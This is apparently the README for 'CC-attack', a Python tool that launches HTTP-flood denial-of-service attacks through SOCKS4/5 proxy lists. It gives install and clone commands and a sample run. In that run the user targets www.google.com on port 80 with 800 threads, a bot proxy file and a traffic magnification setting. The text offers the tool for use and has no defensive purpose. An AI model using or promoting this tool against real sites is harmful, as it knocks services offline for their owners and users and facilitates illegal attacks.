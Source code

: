 # CC-attack
Use Socks to (Http-Flood) attack.
(supports socks4 and socks5 )


# Install

    pip3 install pysocks
    git clone https://github.com/TonyLCH/WebAttack
    cd CC-attack

# Usage

    python3 cc.py
    
      _   _   _             _
     / \ | |_| |_ __ _  ___| | __
    / _ \| __| __/ _` |/ __| |/ /
   / ___ \ |_| || (_| | (__|   <
  /_/   \_\__|\__\__,_|\___|_|\_\\ V2
python3 version
                     Tool Make by TonyLCH
    > Host/Ip:www.google.com
    > Page you want to attack:/
    > Port:80
    > Threads:800
    > Proxy file path(Bot.txt):bot.txt
    > Number Of Proxies:*****
    > Input the Magnification:100
